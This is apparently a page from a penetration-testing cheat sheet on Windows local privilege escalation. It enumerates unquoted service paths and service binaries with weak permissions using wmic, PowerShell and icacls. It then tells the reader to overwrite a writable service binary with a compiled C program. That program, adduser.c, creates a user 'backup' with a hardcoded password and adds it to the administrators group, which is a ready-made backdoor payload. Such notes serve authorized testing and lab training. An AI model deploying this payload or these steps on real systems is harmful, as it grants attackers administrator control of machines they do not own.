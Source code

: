 ``` bash
wmic service get displayname,pathname
```

``` bash
C:\Program.exe
C:\Program Files\My.exe
C:\Program Files\My Program\My.exe
C:\Program Files\My Program\My service\service.exe
```

### Insecure File Permissions

Get Server and Path to running

Powershell >>>

``` bash
Get-WmiObject win32_service | Select-Object Name, State, PathName | Where-Object {$_.State -like 'Running'}
```

=== "Check permission"

	``` bash
	icacls "C:\Windows\system32\wbem\WmiApSrv.exe"
	```

=== "refer icacls"

	[icacls](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/icacls#remarks)

	|Mask| Permissions|
	|---|---|
	|F| Full access|
	|M| Modify access|
	|RX| Read and execute access|
	|R| Read-only access|
	|W| Write-only access|

Overwrite file if have F or W permission.

=== "Compile code adduser.c"

	``` bash
	i686-w64-mingw32-gcc adduser.c -o adduser.exe
	```

=== "adduser.c"

	``` c
	#include <stdlib.h>

	int main ()
	{
	    int add;
	    add = system ("net user backup Adm1nP@ssWD /add");
	    add = system ("net localgroup administrators backup /add");
	    return 0;
	} 
	```
